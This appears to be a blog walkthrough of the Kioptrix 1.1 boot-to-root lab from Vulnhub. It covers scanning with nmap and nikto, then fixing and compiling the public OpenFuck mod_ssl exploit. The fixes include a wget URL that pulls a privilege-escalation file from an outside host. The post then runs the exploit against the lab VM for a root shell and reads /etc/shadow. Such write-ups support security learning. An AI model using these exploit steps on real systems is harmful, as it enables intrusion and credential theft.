 ```yaml
---
layout: post
title: Vulnhub - Kioptrix 1.1 Walkthrough
tags: [Hacking, Vulnhub, CTF]
---
```

Kioptrix 1.1 is a Boot to Root CTF available [here](https://www.vulnhub.com/entry/kioptrix-level-1-1,22/) on Vulnhub. It's difficulty is rated as Beginner. This write up is the first of a series I will be doing as I complete [Abatchy's list of OSCP like Vulnhub VM's](http://www.abatchy.com/2017/02/oscp-like-vulnhub-vms). 

The VM and my Kali instance are set up with NAT networking, so to discover the IP address of the VM I run netdiscover

![](/img/kioptrix1-1/netdiscover.png)

Once I obtain the IP, I then run a nmap scan and find the following ports: 22, 80, 111, 139, 443 and 1024. 
![](/img/kioptrix1-1/nmap.png)

Visiting the websites on port 80 and 443 reveal just the default apache page. So I decide to run nikto to see if anything can be found.
![](/img/kioptrix1-1/nikto.png)

Nikto reveals something interesting - mod_ssl 2.8.4 - mod_ssl 2.8.7 and lower are vulnerable to a remote buffer overflow which may allow a reverse shell (OSVDB-756). I give this a google and come across the [OpenFuckV2 exploit](http://www.exploit-db.com/exploits/764/) on ExploitDB. I download the exploit and attempt to compile, however I recieve a number of errors. I decide to again google to see if I can find any clues on compiling this exploit and I come across this [Blog Post](http://paulsec.github.io/blog/2014/04/14/updating-openfuck-exploit/) and this [Reddit Post](https://www.reddit.com/r/HowToHack/comments/5q2rkp/help_compiling_a_c_exploit/). Combining the information from these two sources the process to get the exploit to work is as follows:

#### Add the following headers
{% highlight c %}
# include <openssl/rc4.h>
# include <openssl/md5.h>
{% endhighlight %}


#### Update the wget URL (found via searching for wget) to:
{% highlight c %}
http://dl.packetstormsecurity.net/0304-exploits/ptrace-kmod.c
{% endhighlight %}


#### Update variable on line 961 from 
{% highlight c %}
unsigned char *p, *end;
{% endhighlight %}
to this:
{% highlight c %}
const unsigned char *p, *end;
{% endhighlight %}


#### Finally, install the libssl-dev library
{% highlight c %}
apt-get install libssl1.0-dev
{% endhighlight %}

Now I can compile the exploit using:
{% highlight bash %}
gcc -o OpenFuck 764.c -lcrypto
{% endhighlight %}

Running the exploit with no arguments presents the options for the exploit. It requires me to enter the code for the correct operating system and apache version number. From our Nikto scan we know that apache version 1.3.20 is the apache version and that the system is running Red Hat Linux. Looking at the options for the exploit we have two options. The following allowed the exploit to work.

{% highlight bash %}
./OpenFuck 0x6b 192.168.5.130 443 -c 40
{% endhighlight %}

The exploit runs successfully and I can see that I have root access via basic shell. 
![](/img/kioptrix1-1/access.png)

I tried to upgrade my shell by using:
{% highlight bash %}
echo os.system('/bin/bash')
{% endhighlight %}

However, this upgrades my shell as the apache user, so I run the exploit again and kept my root shell. As root I can view the /etc/shadow file and see there are other users, however there is nothing of interest in any of the home directories. Some further snooping, I finally find a email in /var/spool/mail/ and find the 'flag'.

![](/img/kioptrix1-1/flag.png)
